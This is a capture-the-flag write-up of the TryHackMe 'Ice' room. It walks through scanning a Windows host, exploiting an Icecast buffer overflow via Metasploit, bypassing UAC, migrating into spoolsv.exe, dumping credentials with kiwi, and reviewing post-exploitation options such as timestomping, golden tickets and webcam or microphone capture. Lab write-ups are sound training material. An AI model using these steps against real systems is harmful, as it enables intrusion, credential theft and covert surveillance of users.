# Ice – TryHackMe Writeup

<p>Platform: TryHackMe </p>
<p>Room: https://tryhackme.com/room/ice</p>


## Reconnaissance
<p>First We need to Scan all ports and finding open ports:</p> <br>

```bash
sudo nmap -sS -T4 -p- <target ip>

```


The Most Important Ports here:
- 445  - SMB
- 3389 - RDP
- 8000 - HTTP Alterntive 

<br>
Okay, We need to check from versions:
<br>
<br>

```bash
sudo nmap -sV -T4 -p 445,3389,8000 <target ip>

```


Okay, We got some useful info:
 - SMB is Runnign on Microsoft Windows 7 - 10
 - The HTTP server is Icecast streaming media server
 - Host Name: DARK-PC

<br><br>

## Gain Access

Google for vulnerables in Icecast streaming media server:
- Icecast 2.0.1 and earlier Buffer Overflow via HTTP Headers Allows Remote Code Execution
- CVSS scores for CVE-2004-1561 (Base Score: 7.5, Exploitability Score: 10, Impact Score: 6.4)
<br>
<p>Okay, let's search for a good exploit in Metasploit:</P>

```bash
sudo msfconsole
search type:exploit Icecast
use <path/Of/Exploit>
```




<br>
<p>Okay, let's configure this exploit:</p>

```
show options
set RHOST <Remote IP>
set LHOST <Your Local IP>
```


<br>
<p>Now, You just need to run exploite and Congratulation! You have a meterprter shell</p>




<br><br>

## Escalate

<p>Let's check from our privileges used in the process</p>

<p> 
 Is the process owner administrator?? use getuid command <br>
 What is the exact versioin number for OS (build)?? use sysinfo command <br>
 What is the process architecture (x64 or x86)?? <br>
 Use getpid command to know which process is used <br>
 Use ps command to see the owner of this process and its architecture!
</b>



<br><br>
<p>
Okay! not enough privileges, architecture !!<br>
The architecture of ths process is x86 bit and the user is not the administrator <br>
While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`
</p>




<br><p>
The previous Post-exploit suggests some exploits to get a better procees with better architecture <br>
Let's use the 2nd exploit: exploit/windows/local/bypassuac_eventvwr
</p> 



<br><br><p>
Now Let's check from the new process architecture by gepid and ps commands <br>
Okay We are using a thread from powershell.exe with better architecture x64 
</p>



<br><br><p>
Now Let's check from the process privileges by usig getprivs command <br>
Okay we have better privileges from the previous
</p>



<br><br><p>
The Process Owner is Dark-PC\Dark, He doesn't have the enough privileges on the device. <br>
We need to move to a process that actually has the highest privileges in the current runnign process. <br>
The best process is lsass.exe service because the service responsible for authentication within Windows. <br>
But they are high restrictions to access or use this process, so we need to look for a process is allowed to interact with lsass. <br>
<br>
In order to interact with lsass:<br>
  1- we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) <br>
  2- a process that has the same permissions as lsass (NT AUTHORITY\SYSTEM)<br>
<br>
The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it! What's the name of the printer<br>
spoolsv.exe ( old age, dynamic rebooting, system permission, x64-bit, and allowed to interact and use lsass.exe) 

```bash
migrate -N spoolsv.exe
```
</p>





<br><br>

## Looting

<p>
Loading kiwi into our meterpreter session to expand our help menu to use it in looting <br>

```meterpreter
load kiwi

```
</p>


<br><br><p>
Let's retrieve all credentials:
```
creds_all
```
How do we steal a password without Dark being logged in? <br>
Scheduled Task = A task stored in Windows says "Run this program with this user at a specific time or when the system starts."<br>
In this case: There is a program called Icecast, Windows runs it under the username Dark.<br>
When Windows runs a program with a specific username: It needs the password, So it loads it into memory (RAM)<br>
Even if: - The Dark user is not sitting in front of the device  - And is not opening the session itself<br>
kiwi Doesn't care: Who's logged in<br>
He just: Reads the memory<br>
Why did the operation succeed so easily in the leb? Windows Defender and Firewall are not working!<br>
</p>




<br><br>

## Post-Exploitation

<p>
Mimikatz / kiwi tool has a bad reputation / signature. All defenders can detecte it <br>
So let's use the available tools in the meterpreter shell. run help to see all tools! <br>

```meterpreter
meterpreter > help
meterpreter > # Copy all help menu page and paste them into a meterpreter_help.txt in other session!

```
</p>


<br><p>
Dump/extract all of the password hashes stored on the system in SAM DB <br>
You need to be AUTHORITY\SYSTEM to run this command, just extract hashes!
</p>



<br><p>
What command allows us to watch the remote user's desktop in real time?
</p>




<br><p>
Record from a microphone attached to the system
</p>


<br><p>
Modify timestamps of files on the system to complicate forensics efforts<br>
Don't ever do this on a pentest unless you're allowed to do so!
</p>



<br><p>
Create what's called a "golden ticket", allowing us to authenticate anywhere with ease <br>
Golden ticket attacks allow us to maintain persistence and authenticate as any user on the domain.
</p>




<br><p>
We have the password for the user 'Dark'  --> we can now authenticate to the machine and access it via remote desktop (MSRDP).<br> 
A “clean” and legitimate entry from the system’s perspective/vision.<br>
This is not server, It's workstation (it means if you login during the legal user is active, you will kick the user out!! It may attract attention <br>
But Why RDP is still useful ?? Because you see as the actual user sees it (User vision/perspective = more information), you can use remmia tool 

```bash
remmina
```
<p> 



<br><p>
Okay, Click "save and connect" <br>
Ohh, We got the following error: <br>

```
Could not connect to the RDP server 10.80.184.84 via TLS. See the DEBUGtraces from a terminal for more inforamtion
```

<br><br>
Okay go back to connection setting then advanced setting then change the TLS Security Level = 0 then click connect.
</p>





<br><br>
<p>
Congratulation! You have a remote Desktop right now.
</p>




<br><br>

## Extra Credit

<p>
As your pentesting skills improve:<br>
You will move from:
   - Using ready-made tools "metaspoloit"
<br>
To:
   - Understanding the vulnerability
   - Exploiting it yourself
 
<br><br> 
Explore manual exploitation via exploit code found on exploit-db.
 - Go to https://www.exploit-db.com
 - Look for "Icecast"
</p>



<br><br>
 - You can see many exploits, I will choice "Icecast 2.0.1 (Win32) - Remote Code Execution (2)"
 - In this site, you will page PoC for the vulnerable written in C programming language
 - paste this code into a file in your local device "icecast_exploit.c"
 - compile the file then run the executable file
```c
gcc icecast_exploit.c -o icecast_exploit
./icecast_exploit
```



<br>

<p>Okay! We need to identify the web server</p>


```
./icecast_exploit <target IP>
```




<p> 
The server is vernable but no shells because The code is PoC and there <br> 
is not a socket in the code to buid a connection and get a shell .. 
</p>


